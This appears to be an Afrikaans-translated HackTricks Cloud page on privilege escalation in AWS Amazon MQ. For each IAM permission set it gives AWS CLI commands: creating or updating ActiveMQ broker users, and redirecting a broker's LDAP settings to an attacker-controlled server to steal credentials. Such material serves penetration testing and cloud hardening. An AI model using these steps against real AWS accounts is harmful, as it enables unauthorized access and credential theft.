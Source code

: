 # AWS - MQ Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

Vir meer inligting oor MQ kyk:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActimeMQ broker skep** (dit werk nie in RabbitMQ nie):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potensiële Impak:** Toegang tot sensitiewe inligting deur ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActimeMQ broker skep** (dit werk nie in RabbitMQ nie):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potensiële Impak:** Toegang tot sensitiewe inligting deur ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:UpdateBroker`

As 'n broker **LDAP** vir outentisering met **ActiveMQ** gebruik. Dit is moontlik om die **konfigurasie** van die LDAP-bediener wat gebruik word, te **verander** na **een wat deur die aanvaller beheer word**. Op hierdie manier sal die aanvaller in staat wees om **alle geloofsbriewe wat deur LDAP gestuur word, te steel**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
As jy op een of ander manier die oorspronklike akrediteerbare wat deur ActiveMQ gebruik is, kan vind, kan jy 'n MitM uitvoer, die krediete steel, dit in die oorspronklike bediener gebruik, en die antwoord stuur (misschien net die gesteelde krediete hergebruik, jy kan dit doen).

**Potensiële Impak:** Steel ActiveMQ akrediteerbare

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

